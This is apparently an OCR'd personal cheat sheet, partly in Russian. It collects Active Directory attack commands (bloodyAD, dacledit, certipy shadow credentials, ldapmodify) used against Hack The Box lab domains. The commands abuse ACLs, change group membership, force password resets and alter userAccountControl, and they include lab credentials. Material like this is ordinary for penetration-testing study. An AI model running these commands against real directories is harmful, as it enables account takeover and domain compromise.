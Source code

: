 # WriteSPN
    bloodyAD -d voleur.htb --host dc.voleur.htb -u svc_ldap -p 'M1XyC9pW7qT5Vn' -k set object svc_winrm servicePrincipalName -v 'http/anything'
# GenericAll
     
     $ bloodyAD -d scepter.htb -u a.carter -p Password123 --host dc01.scepter.htb --dc-ip $(cat /etc/hosts | grep scepter.htb | cut -d ' ' -f 1) add genericAll "OU=STAFF ACCESS CERTIFICATE,DC=SCEPTER,DC=HTB" a.carter

# Добавление в OU 
   anderson GenericAll --> MARKETING DIGITAL
   dacledit.py -action 'write' -rights 'FullControl' -inheritance -principal 'd.anderson' -target-dn 'OU=MARKETING DIGITAL,DC=INFILTRATOR,DC=HTB' 'infiltrator.htb/d.anderson' -k -no-pass -dc-ip 10.129.81.139

# Добавление в группу
 
  bloodyAD.py --host "dc01.infiltrator.htb" -d "infiltrator.htb" -u "e.rodriguez" -p 'WAT?watismypass!' add groupMember 'CHIEFS MARKETING' "e.rodriguez"

# Удалление группы из группы

    Попробуем удалить эту группу IT из группы PROTECTED OBJECTS:

    bloodyAD --host dc.rustykey.htb -d rustykey.htb -u 'IT-COMPUTER3$' -p 'Rusty88!' -k remove groupMember 'PROTECTED OBJECTS' IT

# смена пароля 
    bloodyAD -u ant.edwards -p 'Antman2025!' -d puppy.htb --host puppy.htb set password adam.silver 'NewP@ssw0rd123!'
    bloodyAD.py --host "dc01.infiltrator.htb" -d "infiltrator.htb" --kerberos --dc-ip 10.129.81.139 -u "d.anderson" -p 'WAT?watismypass!' set password "e.rodriguez" 'WAT?watismypass!'
# Shadow Credential
     certipy-ad shadow auto -username P.AGILA@fluffy.htb -password 'prometheusx-303' -account WINRM_SVC
# получение информации об аккаунте  adam.silver
     bloodyAD -u ant.edwards -p 'Antman2025!' -d puppy.htb --host puppy.htb get object adam.silver --attr userAccountControl
 
     Изменение атрибута userAccountControl

     bloodyAD -u ant.edwards -p 'Antman2025!' -d puppy.htb --host puppy.htb set object adam.silver userAccountControl -v 512
     или ldapmodify -x -H ldap://dc.puppy.htb -D "ant.edwards@puppy.htb" -w "Antman2025 -f mod.ldap 
     